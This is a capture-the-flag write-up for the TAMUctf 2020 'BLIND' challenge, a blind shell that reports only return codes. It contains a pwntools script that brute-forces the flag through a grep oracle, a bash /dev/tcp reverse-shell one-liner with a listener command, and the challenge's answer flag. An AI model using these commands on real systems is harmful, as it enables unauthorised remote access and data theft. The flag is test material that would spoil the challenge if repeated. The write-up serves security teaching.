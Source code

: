# BLIND Writeup

### TAMUctf 2020 - Misc 50

> `nc challenges.tamuctf.com 3424`

#### Observations

I first encounter shell-like interface, which first prints `Execute :`. When I input random shell commands, It returns integer. I assumed that the integer response is a return code of shell command. To make the assumption solid, I ran `cat flag*` and found out the response code is `0`, which meant the command had successfully executed. I have solved by two methods.

#### Method 1: Bruteforce each byte

By using the oracle, we can bruteforce the flag value by each chars. By observing the return code of command `cat flag * | grep -F [flag_candidate]`, I could get the flag value byte by byte. Below is the [source code](solve.py).

```python
#!/usr/bin/env python3
import pwn
from string import printable

# pwn.context.log_level = 'DEBUG'

IP, PORT = 'challenges.tamuctf.com', 3424
p = pwn.remote(IP, PORT)

def execute(payload):
    p.sendlineafter('Execute: ', payload)
    return int(p.recvline(keepends=False))


flag = 'gigem{'
for _ in range(30):
    for char in printable:
        if char in ['\\']:
            continue
        flag_cand = flag + char
        ret = execute('cat flag* | grep -F {}'.format('"{}"'.format(flag_cand)))
        if ret == 0:
            flag = flag_cand
            pwn.log.info(flag)
            if char == '}':
                assert flag == 'gigem{r3v3r53_5h3ll5}'
                pwn.log.success('flag = {}'.format(flag))
                exit()
            break
```

#### Method 2: Reverse Shell

After I obtained flag by using method 1, flag content told me there was much more simple solution. Just open reverse shell, assuming the system executes arbitrary command!

Input below command to blind shell.

```sh
/bin/bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

Now listen from your server.

```sh
nv -lvp [PORT]
```

Get reverse shell and profit. Here is the flag:

```
gigem{r3v3r53_5h3ll5}
```
